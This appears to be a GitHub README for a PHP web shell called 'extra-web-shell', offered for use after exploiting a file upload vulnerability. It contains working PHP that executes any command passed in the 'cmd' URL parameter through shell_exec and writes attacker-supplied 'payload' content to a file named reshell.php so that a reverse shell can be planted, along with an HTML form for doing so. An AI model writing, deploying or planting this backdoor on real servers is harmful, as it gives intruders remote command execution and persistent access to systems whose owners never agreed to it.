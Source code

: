 # extra-web-shell

## what is this?
#### this is a simple web shell, contains both, bind and option of upload a reverse shell

## how can this help me?
#### well, sometimes when you find a file upload vulnerability, you will find that you can't bypass the extension eaisy, for example you have to try many extesions methods such as, php, php5, jpg.php ... this extra web shell, will help you to upload any kind of files start from php, txt ...etc

## bind shell section
#### this part of the tool, you can execute any command on the server without any problem, and the output will be visible in the output border

## creat file or reverse shell section
#### here you can upload any file just copy the content of this file and the output will gives you the link of it to acssess
#### you can edit the name and the extension in the source code from "reshell.php" to what you like
```
<?php
	if(isset($_GET['cmd']))
	{
	    $output = shell_exec($_GET['cmd']);
	}
	elseif (isset($_GET['payload'])) {
		file_put_contents("reshell.php", $_GET['payload']);
		$path = "reshell.php";
	}
?>
<html>
<body>
<div class="main">
	<h1>reverse shell</h1>
	<form action="<?php echo $_SERVER['PHP_SELF']?>">
		<textarea type="text" name="payload">your payload here ...</textarea>
		<input type="submit" name="submit" value="upload">
	</form>
</div>

</body>
</html>
```

## LICENCE
[MIT](https://github.com/hamza07-w/extra-web-shell/blob/main/LICENSE)
